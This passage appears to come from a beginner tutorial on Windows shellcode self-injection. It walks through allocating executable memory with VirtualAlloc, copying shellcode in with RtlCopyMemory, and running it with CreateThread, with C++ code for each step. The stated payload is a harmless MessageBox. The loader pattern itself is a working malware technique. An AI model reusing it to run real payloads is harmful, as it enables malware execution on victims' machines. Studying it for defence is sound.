 ```c++
LPVOID allocated_mem = VirtualAlloc(NULL, sizeof(shellcode), (MEM_COMMIT | MEM_RESERVE), PAGE_EXECUTE_READWRITE);

if (allocated_mem == NULL) {
	printf("Failed to allocate memory: %d\n", GetLastError());
    return 1;
}
printf("Memory Allocated at address: 0x%p\n", allocated_mem);
```

# 2. Write Shellcode to the allocated memory.

In this secound step we write the Shellcode to the allocated memory using "RtlCopyMemory" API function. RTLCopyMemory have 3 parameters.

1. allocated_mem is the function call that we use as a first  
   parameter for the memory that is allocated for us by the OS.

2. shellcode is the code that we created in our previous step, 
   which we wants to write in our allocated memory.

3. sizeOf() in this parameter we pass the shellcode to get the 
   size of our shellcode that we want to write.

```c++
RtlCopyMemory(allocated_mem, shellcode, sizeof(shellcode));
printf("Shellcode is written to allocated memory!\n");
```

# 3. Executing the Shellcode 

In this last step we use "CreateThread" API function to execute our allocated shellcode so that it execute the MessageBox shellcode
CreateThread funciton takes 6 parameters but for this self injection we use 3 important parameters.

1. NULL we set this parameter to NULL.
2. 0 we use the value 0 for second parameter.
3. (LPTHREAD_START_ROUTINE) is to create thread process and 
   start it from the allocated_mem that we create (thread is basically use to run 2 or more funciton in parallel to reduce time) using type cast.(After it successfully created the thread it return the HANDLE).

```c++
HANDLE hThread = CreateThread(NULL, 0, (LPTHREAD_START_ROUTINE)allocated_mem, NULL, 0, NULL);

    if (hThread == NULL) {
		printf("Failed to create thread: %d\n", GetLastError());
        return 1;
    }
    // Halt execution until created thread returns we use our hThread and set it to INFINITE
    WaitForSingleObject(hThread, INFINITE);
    // Close handle to thread
    CloseHandle(hThread);
    // Free allocated memory
    VirtualFree(allocated_mem, 0, MEM_RELEASE);

    return 0;
```
# Running and tracking the Self Injection attack
